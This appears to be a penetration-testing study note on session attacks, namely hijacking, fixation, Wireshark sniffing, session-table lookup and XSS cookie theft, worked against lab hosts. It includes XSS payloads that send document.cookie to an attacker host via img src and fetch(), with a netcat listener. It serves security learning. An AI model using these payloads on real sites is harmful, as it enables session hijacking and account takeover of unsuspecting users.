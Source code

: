 # 📉 Session Attacks 1

## Session Hijacking

Here the attacker takes advantage of insecure session identifiers, finds a way to obtain them, and uses them to authenticate to the server and impersonate the victim

Let's imagine the following account of some target.

<figure><img src="../../../.gitbook/assets/image (1361).png" alt=""><figcaption></figcaption></figure>

We can see cookie named `auth-session`

As an attacker we somehow got access to the cookie's value, we can go in a new private window, navigate to the website and replace the current auth-session cookie's value with the one we got. Normally if we reload the page, we will be logged in as the target

## Session Fixation

Session Fixation occurs when an attacker can fixate a (valid) session identifier.

Here are the 3 stages of a Session Fixation attacks:

**Stage 1: Attacker manages to obtain a valid session identifier**

**Stage 2: Attacker manages to fixate a valid session identifier**

**Stage 3: Attacker tricks the victim into establishing a session using the abovementioned session identifier**

Let's got through the 3 steps more in depth:

**Part 1: Session fixation identification**

We will have some random URL with some token value

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN VALUE>
```

<figure><img src="../../../.gitbook/assets/image (1362).png" alt=""><figcaption></figcaption></figure>

So we see the cookie is the same as the token value

**Part 2: Session fixation exploitation attempt**

Let's open a new private windows and add our own token value, we will end up navigating to ->

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=IControlThisCookie
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (1363).png" alt=""><figcaption><p>same value once again</p></figcaption></figure>

We could send a URL similar to the above to a victim. If the victim logs into the application, we could easily hijack their session since the session identifier is already known (we fixated it).

Another way of looking for some fixation problems, let's say we got a cookie named `PHPSESSID, we could try http://insecure.exampleapp.com/login?PHPSESSID=AttackerSpecifiedCookieValue` and see if the specified cookie value is propagated to the application

## Obtaining Session Identifiers without User Interaction

We can obtain obtain session identifiers two main ways:

* without user interaction
* requiring user interaction

### via Traffic Sniffing

Traffic sniffing requires the attacker and the victim to be on the same local network. Then and only then can HTTP traffic be inspected by the attacker. It is impossible for an attacker to perform traffic sniffing remotely.

Let's go on our target website:

<figure><img src="../../../.gitbook/assets/image (1364).png" alt=""><figcaption><p>note <code>auth-session,</code> probably as a session identifier</p></figcaption></figure>

Now, we'll start wireshark on the local network:

```shell-session
sudo -E wireshark
```

Right-click "tun0" and then click "Start capture"

Now in a rivate window, we login to the app using knwon credentials with an account we created and look at the traffic:

<figure><img src="../../../.gitbook/assets/image (1365).png" alt=""><figcaption></figcaption></figure>

We don't forget the http filter, then we will need to filter everything out for any `auth-session` cookies with `Edit` -> `Find Packet`

<figure><img src="../../../.gitbook/assets/image (1366).png" alt=""><figcaption></figcaption></figure>

and when we find the packet we need we can copy the value like this:

<figure><img src="../../../.gitbook/assets/image (1367).png" alt=""><figcaption></figcaption></figure>

**Part 4: Hijack the victim's session**

and now if we go back to the not private window and change our current cookie value with the one we obtained through wireshark (remember to remove the `auth-session=` part)&#x20;

<figure><img src="../../../.gitbook/assets/image (1368).png" alt=""><figcaption></figcaption></figure>

And if we refresh we are now loggid in as the victim

### Post-Exploitation (Database Access)

When we have access to a database via, for example, SQL injection or identified credentials, we should always check for any stored user sessions.

<figure><img src="../../../.gitbook/assets/image (1369).png" alt=""><figcaption></figcaption></figure>

We can try to crack the hashes, but we also see the interesting session table ->

```sql
select * from all_sessions;
select * from all_sessions where id=3;
```

<figure><img src="../../../.gitbook/assets/image (1370).png" alt=""><figcaption><p>We could now authenticate as the user "Developer."</p></figcaption></figure>

## Cross-Site Scripting (XSS)

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

* Session cookies should be carried in all HTTP requests
* Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First let's create an account to look at functionalities ->

To craft our payload, it's good to use handlers like `onload` or `onerror` since they fire up automatically, if they're blocked, we can  use something like `onmouseover`.

```javascript
"><img src=x onerror=prompt(document.domain)>
```

`document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment.

and in the remaining fields, we can put the following:

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

When we save we gor nothing poping on our screen, that's because we need to call the code with another functionality ->&#x20;

When we click on share:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to check if _HTTPOnly_ is off

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To steal a cookie in real world we can use [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or webhook.site

The payload would look somehing like:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

{% content-ref url="../../../red-team/technical-knowledge/web-application/xss-injection.md" %}
[xss-injection.md](../../../red-team/technical-knowledge/web-application/xss-injection.md)
{% endcontent-ref %}

Now let's say the victim clicks on our link, in our webhook or anything else, we should see our cookie pop and can use it to hijack session

### cookies via XSS (Netcat edition)

First we place the below payload in the _Country_ field of Ela Stienen's profile and click "Save."

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Then we launch netcat on port 8000

now we simulate what the victim would do and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com` since we control this public profile hosting a cookie-stealing payload

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

##
